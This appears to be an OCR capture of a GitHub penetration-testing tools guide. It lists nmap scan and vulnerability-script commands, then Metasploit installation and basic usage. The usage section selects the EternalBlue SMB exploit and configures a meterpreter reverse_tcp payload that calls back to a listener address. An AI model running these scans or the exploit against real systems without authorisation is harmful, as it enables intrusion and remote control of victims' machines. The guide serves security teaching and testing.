 ```bash
# Comprehensive scan
nmap -A target.com

# Scan specific ports
nmap -p 80,443,22 target.com

# NSE scripts
nmap --script vuln target.com
```

##### Useful Nmap Scripts

```bash
# Web vulnerability scanning
nmap --script http-vuln-* target.com

# SSL/TLS testing
nmap --script ssl-* target.com

# SMB enumeration
nmap --script smb-* target.com
```

### 🔓 **Penetration Testing Tools**

#### **Metasploit Framework** - Exploitation Framework

**Purpose**: Comprehensive penetration testing and exploit development platform.

##### Installation

```bash
# Kali Linux (pre-installed)
msfconsole

# Ubuntu/Debian
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall

# Update Metasploit
sudo msfupdate
```

##### Basic Usage

```bash
# Start Metasploit console
msfconsole

# Search for exploits
search type:exploit platform:windows

# Use specific exploit
use exploit/windows/smb/ms17_010_eternalblue

# Show exploit options
show options

# Set target
set RHOSTS 192.168.1.100

# Set payload
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
```